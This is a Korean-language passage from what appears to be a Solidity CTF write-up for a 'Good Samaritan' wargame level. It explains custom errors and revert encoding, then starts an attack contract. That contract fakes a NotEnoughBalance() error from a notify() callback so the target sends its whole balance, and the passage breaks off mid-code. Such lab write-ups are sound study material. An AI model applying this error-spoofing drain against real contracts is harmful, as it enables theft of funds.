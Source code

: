 event처럼 미리 error 함수명();을 정의해두고 revert로 그 에러를 발생시키면 된다. 

그러면 이 에러데이터는 `abi.encodeWithSignature(”Unauthorized()”)`로 인코딩 되어 전달된다.

이 사용자 에러는 인자도 전달하며 사용이 가능하다.

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.4;

/// Insufficient balance for transfer. Needed `required` but only
/// `available` available.
/// @param available balance available.
/// @param required requested amount to transfer.
error InsufficientBalance(uint256 available, uint256 required);

contract TestToken {
    mapping(address => uint) balance;
    function transfer(address to, uint256 amount) public {
        if (amount > balance[msg.sender])
            // Error call using named parameters. Equivalent to
            // revert InsufficientBalance(balance[msg.sender], amount);
            revert InsufficientBalance({
                available: balance[msg.sender],
                required: amount
            });
        balance[msg.sender] -= amount;
        balance[to] += amount;
    }
    // ...
}
```

이 경우에는 에러가 발생했을 때 전달해주는 에러데이터는 `abi.encodeWithSignature("InsufficientBalance(uint256,uint256)", balance[msg.sender], amount)`

가 된다.

# 공격

정리하면 내 공격 컨트랙트는 명확해졌다.

1. 사용자 에러 err을 발생시키되 그 에러는 NotEnoughBalance() 이어야 한다.
2. coin.transfer(dest,10)은 에러를, coin.transfer(dest, 전재산)은 에러를 발생시키지 않아야 한다. 따라서 내 주소가 컨트랙트일때 transfer함수에서 실행되도록 되어있는 인터페이스인 notify(amount) 함수를 이용하여 에러를 발생시키거나 발생시키지 않을 것이다.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;
interface ISamaritan{
    function requestDonation() external returns(bool enoughBalance);
}
contract GoodSamaritanAttack {

    ISamaritan public target;
    bool public enoughBalance;
    error NotEnoughBalance();
    
    constructor(address _target) {
        target=ISamaritan(_target);
    }
    function attack() public {
        enoughBalance = target.requestDonation();
    }

    function notify(uint256 amount) public{
        if(amount <=10){
```